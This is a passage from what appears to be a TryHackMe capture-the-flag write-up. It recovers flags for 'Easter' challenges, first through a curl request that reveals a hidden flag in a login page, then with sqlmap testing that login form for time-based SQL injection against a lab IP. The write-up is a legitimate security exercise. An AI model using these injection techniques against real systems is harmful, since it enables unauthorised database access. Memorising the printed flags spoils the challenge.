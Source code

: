 Easter 2: `THM{f4ll3n_b453}`

# Easter 3

*Hint: Directory buster with common.txt might help.*

Dirsearch found `/login/`. The page itself contains an easter egg:

~~~
$ curl -s http://10.10.141.149/login/
<!DOCTYPE html PUBLIC"-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd"
<html>

	<head>
		<meta content="text/html;charset=utf-8" http-equiv="Content-Type">
		<meta content="utf-8" http-equiv="encoding">
		<p hidden>Seriously! You think the php script inside the source code? Pfff.. take this easter 3: THM{y0u_c4n'7_533_m3}</p> 
		<title>Can you find the egg?</title>
		<h1>Just an ordinary login form!</h1>
	</head>
	
	<body>
		
		<p>You don't need to register yourself</p><br><br>
		<form method='POST'>
			Username:<br>
			<input type="text" name="username" required>
			<br><br>
			Password:<br>
			<input type="text" name="password" required>
			<br><br>
			<button name="submit" value="submit">Login</button>
		</form>

			</body>
</html>
~~~

Easter 3: `THM{y0u_c4n'7_533_m3}`

# Easter 4

*Hint: time-based sqli*

The `/login/` page was found by dirsearch. Let's check if fields are vulnerable to SQL injection. We'll first use Burp Suite to intercept a POST request to the login form, save it from the HTTP history as `login.xml` and provide SQL map with the XML file.

~~~
$ python /data/src/sqlmap-dev/sqlmap.py -r login.xml --current-db

[REDACTED]

[08:09:07] [INFO] retrieved: THM_f0und_m3
current database: 'THM_f0und_m3'
~~~
